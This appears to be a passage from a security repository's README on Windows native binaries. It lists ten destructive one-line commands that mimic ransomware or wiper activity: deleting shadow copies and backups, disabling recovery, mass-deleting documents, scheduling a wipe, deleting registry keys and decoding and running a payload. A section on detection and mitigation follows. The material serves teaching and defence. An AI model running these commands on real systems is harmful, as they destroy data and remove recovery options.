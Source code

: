 
## Destructive LOLBin Payloads

Demonstrate ransomware/wiper activity using only Windows-native binaries:

- **cipher.exe** — Wipe free space:  
  `cipher /w:C:\`
- **vssadmin.exe** — Delete shadow copies:  
  `vssadmin delete shadows /all /quiet`
- **wbadmin.exe** — Nuke backups:  
  `wbadmin delete systemstatebackup -keepVersions:0`
- **bcdedit.exe** — Disable recovery:  
  `bcdedit /set {default} recoveryenabled No`
- **fsutil.exe** — Force dirty volume:  
  `fsutil dirty set C:`
- **wmic.exe** — Mass delete files:  
  `wmic process call create "cmd.exe /c del /f /s /q C:\Users\*.docx"`
- **forfiles.exe** — Timed wipe:  
  `forfiles /p C:\ /s /d -2 /c "cmd /c del /q @file"`
- **schtasks.exe** — Scheduled kill:  
  `schtasks /create /tn "Wipe" /tr "cmd /c del /f /q C:\*.xls" /sc once /st 23:59`
- **reg.exe** — Registry destruction:  
  `reg delete HKLM\Software\Microsoft\Windows\CurrentVersion\Run /f`
- **certutil.exe** — Decode and detonate:  
  `certutil -decode payload.b64 wipe.exe && wipe.exe`

---

## Detection & Mitigation

### Detection

- **Sysmon + Sigma Rules:**
  - Monitor `rundll32.exe` and other LOLBins loading non-system DLLs.
  - Watch for abnormal use of `certutil.exe`, `regsvr32.exe`, `mshta.exe`.
  - Track unauthorized shadow volume access.
- **SIEM Correlation (ELK/Splunk):**
  - Alert on execution from network shares.
  - Parent/child process anomalies (e.g., `explorer.exe` spawning `rundll32.exe`).
  - Suspicious encoded PowerShell/CMD commands.

### Mitigation

- Disable Print Spooler where unnecessary:
    ```cmd
    Stop-Service -Name Spooler -Force
    Set-Service -Name Spooler -StartupType Disabled
    ```
- Apply all security patches, especially for Print Spooler and Hive ACL vulnerabilities.
- Restrict LOLBins via AppLocker or Windows Defender Application Control (WDAC).
- Deploy EDR/XDR solutions capable of detecting in-memory attacks and reflective loading.

---